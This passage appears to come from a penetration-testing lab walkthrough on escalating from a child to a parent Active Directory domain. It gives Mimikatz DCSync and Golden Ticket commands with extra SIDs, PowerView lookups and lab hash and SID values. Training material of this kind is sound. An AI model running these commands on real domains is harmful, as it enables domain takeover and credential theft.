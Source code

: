     
    \\\Obtaining the KRBTGT Account's NT Hash using Mimikatz


    PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt

    We can use the PowerView Get-DomainSID function to get the SID for the child domain, but this is also visible in the Mimikatz output above.

    \\Using Get-DomainSID

    PS C:\htb> Get-DomainSID

    Next, we can use Get-DomainGroup from PowerView to obtain the SID for the Enterprise Admins group in the parent domain. We could also do this with the Get-ADGroup cmdlet with a command such as Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL".

    \\Obtaining Enterprise Admins Group's SID using Get-DomainGroup

    PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid


    At this point, we have gathered the following data points:

    The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
    The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
    The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: hacker
    The FQDN of the child domain: LOGISTICS.INLANEFREIGHT.LOCAL
    The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519

    Before the attack, we can confirm no access to the file system of the DC in the parent domain.


    \\Using ls to Confirm No Access

    PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$


    Using Mimikatz and the data listed above, we can create a Golden Ticket to access all resources within the parent domain.


    \\\Creating a Golden Ticket with Mimikatz

    mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt


    \\Confirming a Kerberos Ticket is in Memory Using klist

    PS C:\htb> klist

    \\Listing the Entire C: Drive of the Domain Controller

    PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$






